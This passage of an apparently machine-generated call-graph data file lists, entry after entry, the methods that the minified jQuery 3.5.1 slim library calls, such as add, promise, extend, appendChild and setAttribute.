"target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "resolveWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "state"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "ready"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "readyException"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "resolveWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isEmptyObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isEmptyObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "_queueHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "dequeue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "_queueHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "dequeue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "dequeue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "resolveWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "promise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getRootNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createDocumentFragment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "htmlPrefilter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "matchesSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isEmptyObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "fix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isImmediatePropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopImmediatePropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "_evalUrl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cleanData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", 